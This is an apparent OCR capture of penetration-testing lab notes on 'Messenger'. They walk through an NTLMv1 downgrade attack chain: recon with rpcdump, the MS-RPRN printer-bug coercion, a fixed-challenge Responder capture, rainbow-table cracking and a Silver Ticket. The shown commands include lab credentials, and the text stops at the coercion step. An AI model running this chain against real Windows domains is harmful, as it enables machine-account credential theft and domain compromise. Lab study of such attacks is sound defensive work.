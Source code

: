 # 3. Messenger

## Getting Machine Account Hash via [MS-RPRN] Printer Bug

### Prerequisites

* OS < Windows 10 / Server 2016
* [LAN Manager authentication level](https://docs.microsoft.com/ru-ru/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level) < 3

### Recon

The usage of spool service on target host can be confirmed with impacket/rpcdump.py:

```
root@kali:$ proxychains4 -q rpcdump.py htb.local\bob:'Passw0rd1!'@192.168.3.201 | tee log/rpcdump-192.168.3.201.log
root@kali:$ cat log/rpcdump-192.168.3.201.log | grep 12345678-1234-ABCD-EF00-0123456789AB -B3
Protocol: [MS-RPRN]: Print System Remote Protocol
Provider: spoolsv.exe
UUID    : 12345678-1234-ABCD-EF00-0123456789AB v1.0
```

### Exploitation

**Definitions:**

* NTHash == local password hash (algorithm)
* Net-NTLMv1 / Net-NTLMv2 == network authentication protocols
* NTLMv1-SSP / NTLMv2-SSP == NTLMv1/v2 Session Security Providers (protocols)
* NTv1 / NTv2 Hash (Response) == NTLMv1 / NTLMv2 Hash (Response)

Responder's structure of captured data for `[SMB] NTLMv1`:

`<Username>:<Domain>:<LMv1_Response>:<NTv1_Response>:<Server_Challenge>`

**Killchain overview:**

* SpoolSample [MS-RPRN] > Net-NTLMv1 Hash (Net-NTLMv1 Response) > NTLM Hash (NTHash) > Silver Ticket

**Killchain steps:**

1\. In `Responder.conf` change the server challenge to be `1122334455667788` in order to use rainbow tables at [crack.sh](https://crack.sh/netntlm/).

2\. Start Responder with `--lm` to disable SSP:

```
root@kali:$ ./Responder.py -vI tun0 --lm
```

3\. Trigger [[MS-RPRN]](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/a7cceedb-3afc-45f0-82e1-af2b2cbf20e4) RPC call with [dementor.py](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc) to coerce DEV.LOCAL.HTB (192.168.3.201) talk to us under the pretext of subscribing to notifications of changes on the print server:
